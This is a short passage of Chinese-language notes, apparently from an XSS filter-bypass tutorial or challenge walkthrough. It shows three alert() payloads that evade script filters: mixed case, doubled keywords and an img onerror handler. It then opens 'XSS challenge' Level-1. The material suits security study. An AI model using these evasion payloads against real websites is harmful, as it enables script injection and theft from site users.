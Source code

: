 ```html
<sCRiPt>alert(/hello world/)</ScRIpT>
```
大小写绕过成功
![image-20240127093734541](04.xss/image-20240127093734541.png)
假如我们将大小写全部给匹配上，我们依旧可以利用双写法绕过

```html
<scscriptript>alert(/hello world/)</scrscriptipt>
```
不用`<script>`一样能触发xss
```html
<img src="x" onerror=alert(/xss/)>
```
# XSS挑战之旅
## Level-1
在“name=”后面写什么，网页就显示什么。